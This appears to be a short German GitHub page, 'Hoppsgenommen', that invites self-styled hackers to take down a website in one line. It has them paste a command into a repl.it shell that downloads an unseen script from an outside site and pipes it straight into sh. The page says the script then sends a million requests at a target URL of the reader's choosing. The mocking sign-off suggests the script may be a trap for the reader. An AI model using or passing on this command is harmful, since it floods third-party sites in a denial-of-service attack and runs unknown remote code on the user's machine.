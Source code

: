 # Hoppsgenommen asa7be


Du kleiner Hägger bist hier gelandet, weil du wissen willst, wie man eine Seite mit einer Zeile code nimmt?

Dann bist du hier genau richtig !


Geh auf [repl.it](https://repl.it) und generiere eine neue Bash repl.

![repl.it how to make bash](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/replit.png)

Dann paste dort folgenden code rein:

```bash
curl -L "gendos.site?args=https://deinezielurl.de%20-n=1000000" | sh
```

Drücke auf `Run` und schau was passiert :D!

![Test run with the script and args set to ddostest.me](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/ddostestme.png)

PS.: Es kann unter Umständen etwas dauern, da [hey](https://github.com/rakyll/hey) 1000000 Requests
gegen "https://deinezielurl.de" feuert.

Enjoy.

Proudly presented by Hoppsgenommen.de:

![Hoppsgenommen du lappen](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/g102.png)
